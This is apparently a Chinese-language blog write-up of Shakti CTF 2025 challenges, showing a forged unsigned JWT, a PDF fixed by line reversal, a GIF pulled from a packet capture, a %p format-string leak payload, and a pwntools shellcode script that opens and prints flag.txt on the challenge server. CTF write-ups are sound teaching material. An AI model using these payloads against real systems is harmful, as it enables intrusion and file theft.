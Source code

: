 ```yaml
---
title: Shakti CTF 2025
published: 2025-07-26
updated: 2025-08-05
description: "Shakti CTF 2025 writeup"
image: ""
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: true
---
```


跟 eating 一起打，這次計分沒有分開計

131 th / 554

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726231045.png)

總覺得越來越不會寫 osint 了，半題沒寫出來 (╥﹏╥)

---

# Shakti CTF 2025

## web

### Hooman

從題目給的 source code 來看，沒有驗證 JWT 簽章，所以可以用線上工具生成一個 `are_you_hooman` 欄位是 true 的 JWT token 就可以拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030552.png)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030750.png)

隨便在首頁輸入一個名字，然後把 cookie 裡面的 JWT token 換成剛剛生成 `are_you_hooman` 為 true 的 token 就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030455.png)

```txt
shaktictf{now_uk_jwts_hoomannnnn}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030509.png)

## forensics

### Binary Reflection

拿到的 pdf 看起來像被倒過來(第一行變成最後一行、第二行變倒數第二行...，依此類推)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725205953.png)

先把 pdf 內容倒過來

```bash
tac corrupt.pdf > fixed.pdf
```

然後再用線上工具去看 pdf 裡面有沒有藏東西，就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210554.png)

```txt
shaktictf{pdf_pr3tty_d4m4g3d_f0rm4t}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210526.png)

### Glitch In Frame

封包裡面有文字以及一張 gif

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210952.png)

不知道要怎麼正確的把 gif 拿出來，直接把內容複製出來

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213504.png)

貼到 cyberchef ，output 是一張 gif，可以看出來是在播放的 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213515.png)

用線上工具把 gif 放慢，就能得到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213801.png)

```txt
shaktictf{v1sU4l_d@t4_xf3ltr4t10n_thru_pkt5_and_fr4m3s_is_n0t_a_myth_just_v3ry_und3rr4ted}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725214542.png)

## PWN

### Secret Mission

這題的第一個反應是用 `%p` 去看 stack 上有甚麼

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013334.png)

```txt
AAAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

在本地測試一下發現只要用很多 `%p` 就可以在 print 出來的東西裡面發現 flag，所以 nc 過去輸入一樣的 payload

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013259.png)

整個貼到 cyberchef 上面就能拿到很像 flag 的東西

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013316.png)

把這段字串貼到 Multi Decoder，再稍微排序一下就得到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013020.png)

```txt
shaktictf{th3_eXtr@ct3d_@bilitie5_v@n1sh_but_th3_fl@g_r3m@1ns}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013235.png)

### Seashells

用 ghidra 看程式碼，首先會讀取最大 0x500 (1280 bytes) 的輸入到 local_518，然後使用 mmap() 建立一塊 可讀、可寫、可執行的記憶體區段（RWX），並將輸入複製到該區段，再把這段記憶體區段當作函式來呼叫，(\*\_\_dest)(); 直接跳入 shellcode 執行

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023602.png)

`seccomp_initialisation()` 裡面有允許的 syscall，例如`open`、`read`、`write` 等少數幾個

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023641.png)

讓 chatgpt 生 script 然後再調整檔名

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

shellcode = asm('''
    xor rax, rax
    lea rdi, [rip + filename]
    xor rsi, rsi
    mov rax, 2          /* sys_open */
    syscall

    mov rdi, rax        /* fd */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 0          /* sys_read */
    syscall

    mov rdi, 1          /* stdout */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 1          /* sys_write */
    syscall

    mov rax, 60         /* sys_exit */
    xor rdi, rdi
    syscall

filename:
    .asciz "flag.txt"
buf:
    .space 100
''')

def main():
    p = remote("43.205.113.100", 8855)

    prompt = p.recvuntil(b'>>')
    print(prompt.decode())

    p.send(shellcode.ljust(0x500, b'\x00'))

    flag = p.recvrepeat(timeout=3)
    print("[*] Flag output:\n", flag.decode())

    p.close()

if __name__ == "__main__":
    main()
```

成功拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023516.png)

```txt
shaktictf{u_g0t_wh@t_u_w15h3d__th3_s3@sh311_f1@g}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023316.png)

---

分享一下很酷的東西，少了提示可能這輩子都找不到 welcome flag 了

不確定甚麼原理，但是在 discord 裡面，這一段符號後面的內容除了把整份文字複製下來才可以看到，並且送出訊息後不會通知

```txt
  ||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​|| _ _ _ _ _
```

應該是整到很多人，太好玩了，到比賽結束前還有人在文字頻道 /flag
